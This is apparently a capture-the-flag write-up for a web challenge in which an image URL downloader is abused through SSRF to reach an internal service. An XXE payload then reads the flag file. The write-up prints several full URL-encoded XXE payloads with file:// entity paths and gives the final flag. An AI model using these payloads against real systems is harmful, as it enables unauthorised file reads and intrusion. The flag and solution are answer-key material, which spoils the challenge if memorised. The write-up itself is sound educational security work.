




# xxNewYearsxx
Medium

500pts -> 496 pts

4 solves

## Challenge Description
It's almost new years and the tech team has developed a url image downloader!

But in their rush to welcome 2026, they may have made some mistakes...

xxnewyearsxx.nypinfosec.net

## Solve
For this challenge, we are given a chall.zip (I've uploaded the entire extracted folder as xxnewyearxx). 
First thing to note was the presence of the flag in secretservice > FLAG. It looks promising at first, until I realised that the site is showing xxnewyearsxx folder app.py. This hinted that it was likely a SSRF challenge. Additionally, there were signs of XXE injection after reading the functions in secretservice app.py. 

The first thing I made was the payload as I could exploit the XXE vulnerability (payload.txt). Utilising information from the docker-compose.yml file, I deduced the following:

1. secretservice does not have a direct port connection, but should be linked (how am i gonna exploit then)
2. xxnewyearsxx runs on port 3000

Now, I attempt to test the payload by utilising URL Encoding. Next was to string up the entire site to attempt accessing secretservice. By checking the dockerfile in secretservice, I also noted that it was on port 6767 (WHY 67 AGAIN??????)

Thus stringing together the format:

```http://secretservice:6767/process-resolutions?resoltion=<url encoded xml content>```

```http://secretservice:6767/process-resolutions?resoltion=%3C!DOCTYPE%20foo%20%5B%0D%0A%3C!ENTITY%20xxe%20SYSTEM%20%22file:///FLAG%22%3E%0D%0A%5D%3E%0D%0A%3Cresolution%3E%0D%0A%20%20%20%20%3CresolutionId%3E&xxe;%3C/resolutionId%3E%0D%0A%20%20%20%20%3Ctitle%3Etest%3C/title%3E%0D%0A%20%20%20%20%3Cdescription%3Etest%3C/description%3E%0D%0A%3C/resolution%3E%0D%0A```

Unfortunately, this did not really work as expected and resulting in an error. 



The first thing I attempted was to clean up all the weird spaces and any new line symbols I don't really need. (payload2.txt)

This would convert the URL to:

```%3C!DOCTYPE%20r%20%5B%3C!ENTITY%20x%20SYSTEM%20%22file:///FLAG%22%3E%5D%3E%3Cresolution%3E%3CresolutionId%3E&x;%3C/resolutionId%3E%3Ctitle%3E1%3C/title%3E%3Cdescription%3E1%3C/description%3E%3C/resolution%3E```

Before even using this, I ran into an issue where I noticed that CyberChef was not encoding everything inside. It actually retained the &x in my payload, therefore giving me issues. As such, I had to manually encode it (%26x%3B). 

```%3C!DOCTYPE%20r%20%5B%3C!ENTITY%20x%20SYSTEM%20%22file:///FLAG%22%3E%5D%3E%3Cresolution%3E%3CresolutionId%3E%26x%3B;%3C/resolutionId%3E%3Ctitle%3E1%3C/title%3E%3Cdescription%3E1%3C/description%3E%3C/resolution%3E```



This time, it returned an image. The image isn't really an image, but rather some JSON. 



However, no sign of the flag, which means that there's a likelihood the flag path was incorrect, after all, its inaccurate to assume that the flag is in the same directory as the app.py of secretservice. So I dug around a little more within the docker files and found ```WORKDIR /app```

This means that I had to change my path from ```file:///FLAG``` to ```file:///app/FLAG``` (payloadv3.txt)

All that's left to do is to URL encode (yes and manually changing it again cos CyberChef things) and putting it in again. Again, it returns an image but this time, a different item in the resolution ID field. 



With that, flag acquired. 

**NYP{xXe_s$rf_1njecTi0n_xXe}**